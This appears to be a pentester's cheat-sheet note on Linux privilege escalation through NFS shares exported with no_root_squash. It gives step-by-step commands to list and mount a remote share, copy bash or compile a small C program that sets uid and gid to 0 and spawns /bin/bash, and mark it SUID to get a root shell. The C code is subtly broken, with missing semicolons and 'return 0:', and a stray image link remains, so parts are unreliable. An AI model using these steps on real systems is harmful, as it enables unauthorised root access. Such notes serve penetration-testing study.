 root squash NFS
cat /etc/exports
if there is no_root_squash, the folder is shareable and a remote user can mount it.


**ENUMERATE MOUNTABLE SHARES AND MOUNT ON SHARE**

showmount -e (rhost)
mkdir (mountable_folder/foldername)

``mount -o rw (rhost>:<mountable_folder_2> <mountable_folder/foldername
OR
``mount -t nfs rhost:/shared /tmp/nfsdir
``cd /tmp/nfsdir
``cp /bin/bash .
``chmod +s bash

**CREATE SUID BINARY**
```
nano nfs.c
 int main()  
{ 	setgid(0);  
	setuid(0)  
	system("/bin/bash")  
	return 0:  
}

```
``gcc nfs.c -o nfs -w
``chmod +s nfs
``./nfs

![file:///tmp/.P4RB62/2.png](file:///tmp/.P4RB62/2.png)